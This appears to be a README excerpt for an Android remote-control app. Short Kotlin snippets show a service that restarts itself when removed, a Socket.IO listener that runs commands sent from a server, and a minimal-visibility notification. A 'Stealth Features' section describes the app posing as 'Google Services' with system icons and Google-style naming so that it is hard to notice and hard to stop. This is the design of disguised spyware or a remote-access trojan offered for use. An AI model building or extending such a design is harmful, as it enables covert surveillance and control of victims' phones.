 
## 🔧 **Technical Features**

### **Advanced Android Implementations**
```kotlin
// Foreground Service with Auto-restart
class RemoteControlService : Service() {
    override fun onTaskRemoved(rootIntent: Intent?) {
        // Auto-restart capability
        val restartServiceIntent = Intent(applicationContext, this.javaClass)
        startService(restartServiceIntent)
    }
}
```

### **Real-time Communication**
```kotlin
// Socket.IO Integration
private fun connectToServer() {
    socket = IO.socket(SERVER_URL)
    socket.on("command") { handleCommand(it) }
    socket.connect()
}
```

### **Stealth Operation Mode**
```kotlin
// Ultra-minimal notification system
private fun createNotificationChannel() {
    val importance = NotificationManager.IMPORTANCE_MIN // Hidden from status bar
    val channel = NotificationChannel(CHANNEL_ID, "Android System Intelligence", importance)
    channel.lockscreenVisibility = Notification.VISIBILITY_SECRET
}
```

---

## 🎭 **Stealth Features & Security**

### **Camouflage Techniques**
- **App Identity**: Appears as "Google Services" in the device
- **System Icons**: Uses Android system sync icons
- **Silent Notifications**: Minimal visibility in notification panel
- **Professional Naming**: All strings use Google-style terminology

### **Security Implementations**
- **Encrypted Communications**: Secure data transmission
- **Permission-based Access**: Runtime permission handling
- **Error Obfuscation**: Generic error messages for security
- **Auto-recovery**: Resilient against termination attempts

---